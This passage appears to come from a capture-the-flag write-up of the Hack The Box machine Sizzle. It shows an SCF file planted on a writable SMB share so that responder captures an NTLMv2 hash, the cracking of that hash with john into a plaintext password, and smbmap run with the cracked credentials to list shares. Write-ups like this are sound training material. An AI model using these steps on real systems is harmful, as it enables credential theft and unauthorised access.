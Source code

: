 ```bash
traverse_directories "$root_directory"
```

The output was this:

```
# ./write.sh 
Created file 'test' in directory: /home/kali/htb/sizzle/mnt/Users/Public
Created file 'test' in directory: /home/kali/htb/sizzle/mnt/ZZ_ARCHIVE
```

So I could also write to that Public file. I copied the `test.scf` file there and `responder` captured a hash!

<figure><img src="../../../.gitbook/assets/image (1302).png" alt=""><figcaption></figcaption></figure>

We can crack this hash easily with `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)     
1g 0:00:00:04 DONE (2023-05-26 06:26) 0.2415g/s 2757Kp/s 2757Kc/s 2757KC/s Ashiah08..Ariel!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

However, this password cannot be used to `evil-winrm` in to the machine.

### CertEnroll --> User Shell

With these credentials, we can actually access another share:

```
$ smbmap -u amanda -p Ashare1972 -H 10.129.73.156         
[+] IP: 10.129.73.156:445       Name: 10.129.73.156                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        CertEnroll                                              READ ONLY       Active Directory Certificate Services share
        Department Shares                                       READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Operations                                              NO ACCESS
        SYSVOL                                                  READ ONLY       Logon server share
```
